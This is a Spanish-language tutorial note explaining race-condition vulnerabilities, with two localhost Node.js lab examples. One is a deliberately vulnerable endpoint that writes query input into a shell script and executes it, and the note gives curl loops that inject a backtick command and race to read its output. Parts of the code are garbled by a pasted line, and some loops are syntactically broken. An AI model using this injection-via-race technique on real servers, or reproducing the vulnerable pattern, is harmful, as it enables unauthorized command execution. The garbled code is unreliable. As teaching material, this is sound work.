 ----
- Tags: #ataques #teoria #practica #basico 
----

# ¿ Que son las **Race Condition** ? 

### Las **condiciones de carrera (Race Condition)** son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos. 

### Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema. 

----

# Explotación 

### Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio ( **DoS** ), sobrescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código maliciosos en el sistema. 

### Por ejemplo, supongamos que dos procesos intentan acceder a un archivo al mismo tiempo: uno para leer y el otro para escribir. Si no hay un mecanismo adecuado para sincronizar el acceso al archivo, puede ocurrir que el proceso de lectura lea datos incorrectos del archivo, o que el proceso de escritura sobrescriba datos importantes que necesitan ser preservados. 

### Este ejemplo, se puede dar con el siguiente código: 

```javascript
// more code ....
app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

// .... more code

```

### En este ejemplo tenemos dos funcionalidades muy importantes, la primera es la que se realiza cuando **validate** = 'action'. 

```javascript
let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
}
```

### Por lo que se ejecuta la función **boot_validate** con la query **person** recibida que es nuestro input el cual se va a alojar en el archivo **hello.sh** el cual se ejecutara posteriormente luego de validar que solo contenga caracteres alfanuméricos. 

### Por otro lado, la funcionalidad importante que tenemos es la que se ejecuta en caso de que nuestra query **validate** no sea ni 'action' ni 'reset', dando el siguiente código: 

```javascript
 boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
```

### En esta también vemos que se ejecuta la función **boot_validate**, si bien esto de primeras este sanitizado, podríamos aprovecharnos de una condición de carrera ya que no esta adecuadamente programado, si bien si ingresamos un comando este se limpia y no se muestra (luego de ejecutarlo), intuimos que por un momento se ejecuta, por lo que si abusando de bucles estamos constantemente leyendo el resultado de la web en donde se lee el contenido hello.txt (Donde se alojaría el output de nuestro comando) a la vez que estamos constantemente ejecutando la petición de la ejecución de un determinado comando, en un punto la aplicación podría tener un fallo ya que ambos procesos, como ocurre en la condición de carrera, están compitiendo por los mismos recursos. 

```bash
# Por un lado estamos constantemente enviando la petición de que se ejecute el comando "whoami"
while true; do curl -s -X GET 'http://localhost:5000/?person=`whoami`&action=validate'; done

# Por otro lado, estamos constantemente leyendo el apartado de la web en donde se vuelca el output de estos comandos (Si se diera la condición de carrera y funciona podriamos llegar a ver el output del comando deseado en algunos momentos)
while true, do curl -s -X GET 'http://localhost:5000/?action=run' | html2text | xargs | grep 'Check this out:' ; done 
```

### La prueba y análisis de este código se puede encontrar en este [repo](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition). 

----

### En otro ejemplo, tenemos el siguiente código: 

```javascript
// more code ...
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
// ... more code
```

### Esto es una web local por el puerto 5000 la cual cuando ingresamos un parámetro x (:value), crea un archivo llamado **shared-file.txt** con el contenido ingresado como parámetro, por lo que si ponemos 'http://localhost:5000/dobliuw', nos intentara descargar un archivo **shared-file.txt** con el contenido *dobliuw*. 

### Que pasa con esto? En principio, así como en el caso anterior, de puede acontecer un **Racea Condition** ya que, imaginemos que múltiples usuarios intentan crear su archivo en simultaneo, no solo podría acontecerse un *DoS*, si no que, en algún momento, podría llegar a ver la petición de otros usuarios, descargando así archivos con un contenido distinto al ingresado.

### Esto se puede probar haciendo uso de [[Burpsuite]], en donde si preparamos una petición a la url 'http://localhost:5000/burpsuite' y por otro lado desde consola ejecutamos la siguiente línea: 

```bash 
while true, do curl -s -X GET 'http://localhost:5000/dobliuw' | grep -v "dobliuw" ; done
```

### Estaríamos tramitando múltiples llamadas de intento de creación del archivo **shared-file.txt** con el contenido **dobliuw**, por lo que si ahora tramitamos la petición de burpsuite, en donde indicamos que (Según el código) queremos crear el archivo **shared-file.txt** con el contenido **burpsuite**, muy posiblemente en algún momento veamos el contenido **dobliuw** en la petición tramitada por [[Burpsuite]] y en la consola veamos el contenido **burpsuite**.  